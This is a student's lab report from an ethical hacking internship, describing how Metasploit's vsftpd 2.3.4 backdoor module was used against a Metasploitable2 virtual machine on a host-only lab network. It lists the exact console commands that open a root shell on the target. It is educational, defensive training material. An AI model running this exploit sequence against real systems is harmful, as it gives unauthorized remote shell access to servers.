




# Task-3: Basic Vulnerability Exploitation using Metasploit

## Student Details
- Name: Kalisetti Yogeswari
- Internship: Ethical Hacking & Penetration Testing Internship
- Course: B.Tech CSE (Cyber Security)

---

## Objective

The objective of this task is to understand basic vulnerability exploitation using the Metasploit Framework in a controlled lab environment.

---

## Tools Used

- Kali Linux
- Metasploitable2
- Metasploit Framework
- VMware Workstation

---

## Network Configuration

- Network Type: Host-only
- Kali Linux IP: 192.168.199.128
- Target Machine IP: 192.168.199.129

---

## Commands Used

### Start Metasploit

msfconsole

### Search Vulnerable Service

search vsftpd

### Select Exploit

use exploit/unix/ftp/vsftpd_234_backdoor

### Set Target IP

set RHOSTS 192.168.199.129

### Run Exploit

run

### Verify Shell Access

whoami

---

## Observation

The VSFTPD 2.3.4 vulnerable service was successfully exploited using the Metasploit Framework. A command shell session was opened successfully on the target machine.

---

## Screenshots

### Lab Setup

### Ping Result

### Metasploit Startup

### Exploit Search

### Exploit Execution

### Shell Access

---

## Conclusion

This task provided practical knowledge of vulnerability exploitation using Metasploit Framework. It helped in understanding exploit modules, payload execution, and shell access techniques in penetration testing.
